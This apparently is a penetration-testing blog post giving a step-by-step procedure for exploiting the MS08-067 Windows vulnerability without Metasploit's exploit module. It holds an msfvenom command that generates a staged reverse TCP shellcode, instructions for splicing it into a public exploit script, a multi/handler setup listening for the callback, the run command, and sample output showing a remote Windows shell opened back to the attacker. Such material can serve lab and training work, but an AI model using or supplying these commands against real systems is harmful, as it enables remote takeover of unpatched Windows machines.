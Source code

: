 ```yaml
---
title:  "MS08-067 - DIY Script"
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: true
---
```


MS08-067 - Without Mimikatz Script
==================================

Exploiting MS08-067 without using metasploit.   

This has been quite tricky to get working, but in summary from my experience, you cant use 'nc' as a listener for this because the payload needs to be STAGED and 'nc' will only catch STAGELESS payloads.


First download the Python Script from here - [MS08_067](https://www.exploit-db.com/download/40279.py 'MS08-067')

Next run msfvenom with the arguments to suit your needs:

`msfvenom -p windows/shell/reverse_tcp LHOST=x.x.x.x LPORT=8080  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode --arch x86 --platform windows`

Next, replace the shell code in the python script with the shell code you have just created with msfvenom.

Note - LEAVE THE FIRST THREE LINES (NOPS) IN THE PYTHON SCRIPT.
Lines, 47, 48, 49


`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`   
`---ENTER SHELLCODE HERE ---`

Next make a note of the Operating System & Service Pack that your are trying to execute. 
There are 7 options to choose from:

1   Windows XP SP0/1 Universal
2   Windows 2000 Universal
3   Windows 2003 SP0 Universal
4   Windows 2003 SP1 English
5   Windows XP SP3 French (NX)
6   Windows XP SP3 English (NX)
7   Windows XP SP3 English (AlwaysOn NX)

Next -  Start Metasploit and setup a handler 
use exploit/multi/handler
set LHOST X.X.X.X
set LPORT XXXX
set payload windows/shell/reverse_tcp
exploit -j

Next execute the python script using the correct number that relates to the OS and Service Pack liek so.


python 40279.py 1

You should see the reverse shell returned.

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on X.X.X.X:8080 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to A.A.A.A
[*] Command shell session 10 opened (X.X.X.X:8080 -> A.A.A.A:1219) at 2017-02-00 15:55:22 +0000

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>


![img-description](/images/ms08-067.png)
_For Reference this is what the traffic looks like for a successful reverse TCP connection for this particular exploit._



